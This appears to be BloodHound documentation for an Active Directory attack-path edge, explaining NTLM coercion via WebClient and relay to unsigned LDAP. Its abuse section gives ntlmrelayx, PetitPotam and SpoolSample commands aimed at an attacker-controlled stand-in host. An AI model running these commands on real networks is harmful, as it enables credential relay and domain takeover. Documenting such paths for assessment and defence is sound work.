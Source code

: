 ```yaml
---
title: CoerceAndRelayNTLMToLDAP
description: The target computer can be coerced to authenticate via NTLM to an LDAP service on a domain controller that does not require LDAP signing, allowing an attacker to abuse Active Directory permissions or obtain administrative access to the target computer.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This edge indicates that the target computer has the WebClient service running. This enables an attacker with "Authenticated Users" access to trigger WebClient-based coercion from the target computer to their attacker-controlled host via NTLM. Since the connection originates from the WebClient instead of SMB, the attacker can relay the authentication attempt to the LDAP service of a domain controller that does not require LDAP signing. This relay can be used to abuse Active Directory permissions or obtain administrative access to the target computer using Resource-Based Constrained Delegation (RBCD) or Shadow Credentials.

## Abuse Info

This section provides general guidance about abusing this edge. For detailed instructions, see [references](#references) at the end of this article.

### Linux

1. **Start the Relay Server**

   The NTLM relay can be executed with [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py). To relay to LDAP and perform a Shadow Credentials attack against the target computer:

   ```bash
   ntlmrelayx.py -t ldap://<Domain Controller IP> --shadow-credentials
   ```

1. **Coerce the Target Computer**

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods).

   Examples of tools include:

   - [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV Connection String format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.

   ```bash
   petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS@PORT/file.txt" "VICTIM_IP"
   ```

### Windows

1. **Start the Relay Server**

   The NTLM relay can be executed with [Inveigh](https://github.com/Kevin-Robertson/Inveigh).

1. **Coerce the Target Computer**

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods). Examples of tools include:
   
   - [SpoolSample](https://github.com/leechristensen/SpoolSample)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV connection string format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.

   Example:

   ```ps
   SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS@PORT/file.txt"
   ```

## Opsec Considerations

NTLM relayed authentications can be detected by login events where the IP address does not match the computer's actual IP address. This detection technique is described in the blog post: [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9).

## Edge Schema

Source: `Authenticated Users`, [Group](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/group)  
Destination: [Computer](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/computer)  
Traversable: **Yes**  

## References

- [Hackndo: NTLM relay](https://en.hackndo.com/ntlm-relay/)
- [Microsoft: NTLM Overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview)
- [Relay Your Heart Away: An OPSEC-Conscious Approach to 445 Takeover](https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac)
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
- [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
- [PetitPotam](https://github.com/topotam/PetitPotam)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Beyond the Basics: Exploring Uncommon NTLM Relay Attack Techniques](https://www.guidepointsecurity.com/blog/beyond-the-basics-exploring-uncommon-ntlm-relay-attack-techniques/)
- [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
- [I'm bringing relaying back: A comprehensive guide on relaying anno 2022](https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022)
- [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
- [2020, 2023, and 2024 LDAP channel binding and LDAP signing requirements for Windows (KB4520412)](https://support.microsoft.com/en-us/topic/2020-2023-and-2024-ldap-channel-binding-and-ldap-signing-requirements-for-windows-kb4520412-ef185fb8-00f7-167d-744c-f299a66fc00a)
- [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9)

